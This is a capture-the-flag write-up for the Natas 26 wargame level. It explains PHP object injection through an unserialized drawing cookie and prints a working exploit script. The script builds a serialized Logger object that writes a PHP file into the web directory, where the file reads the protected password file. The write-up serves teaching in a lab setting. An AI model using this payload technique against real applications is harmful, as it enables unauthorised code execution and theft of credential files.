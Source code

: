 # Natas 26

We are given a function to add drawings to the web application page. It can be noted that the drawings are being stored as each request adds incremental drawings to the web page. We have to again, tamper with the cookies to solve this challenge. This challenge is similar to level 11 where we needed to reverse the cookie to alter its contents.

Here we need to carry out a PHAR exploit or inject a serialized variable to our advantage. Serialization is the process of storing an object’s properties in a binary format, which allows it to be passed around or stored on a disk, so it can be unserialized and used at a later time.

`drawFromUserdata()` which does a couple things. One, if you sent along coordinates it draws corresponding lines. Second, if you sent along the ‘drawing’ cookie, it deserializes the contents of the cookie and draws accordingly.

Seeing the word ‘unserialize’ in a hacking challenge should cause alarm bells to go off in your head. Let’s look closely at the deserialize function.

```php
$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

Phar exploits and serialization bugs have one more important thing to note, the things usually go wrong is when the destructor is called. The attacks could be anywhere from file inclusion to arbitary code execution. There is a nice blog detailing this attack type — [**https://blog.ripstech.com/2018/php-object-injection/**](https://blog.ripstech.com/2018/php-object-injection/) .

What we’re after is the natas27 password file. There are read as well as write privileges to the `img` folder because that’s where web application stores images.

With all that being said, let us prepare our payload. Check out the Logger class. Both the constructor and destructor write to a file. What file? Whatever is stored in the `$logFile` member variable. What does it write? What ever is stored in the `$initMsg` and `$exitMsg` member variables.

Recall that the definition of the class does not go along for the ride when an object is serialized. We only need to make a class named Logger, load up the member variables we want, and send it along. The php program to accomplish or goals has been written below.

```php
<?phpclass Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Initializing object\n";
        #This is the payload
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";   
        #This is to retrive the file using file inclusion, we know the img directory has read privileges.
        #The php extension is important 
        $this->logFile = "/var/www/natas/natas26/img/file_1.php";
    }
}$logObject = new Logger();
#This is what the value will be set to the drawingObject
print base64_encode(serialize($logObject))."\n";?>
```
